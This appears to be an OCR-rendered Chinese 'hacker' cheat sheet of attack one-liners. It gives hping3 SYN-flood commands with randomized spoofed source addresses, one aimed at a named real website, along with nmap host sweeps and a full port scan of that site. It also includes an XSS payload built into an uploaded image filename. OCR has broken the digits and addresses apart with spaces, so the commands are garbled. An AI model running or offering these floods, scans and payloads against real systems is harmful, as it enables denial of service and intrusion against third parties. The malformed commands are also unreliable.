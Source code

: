 ## Hacker
  
### hping 3 洪水攻击  
  
```  
sudo hping 3 --flood -S --rand-source -p 8 0 1 2 1.4 2.1 5 5.6 9  
sudo hping 3 -c 1 0 0 0 0 0 -d 1 2 0 -S -w 6 4 -p 8 0 --flood --rand-source www.integle.com  
```  
  
### 扫描指定网段存活的主机  
  
```  
sudo nmap -sP -Pl -PT 1 9 2.1 6 8.1.0/2 4  
```  
  
### 端口服务扫描  
  
```  
sudo nmap www.integle.com -p 0-6 5 5 3 5  
```  
  
### XSS 图片上传  

```  
"><img src=x onerror=alert(location.href)>.jpg  
```  
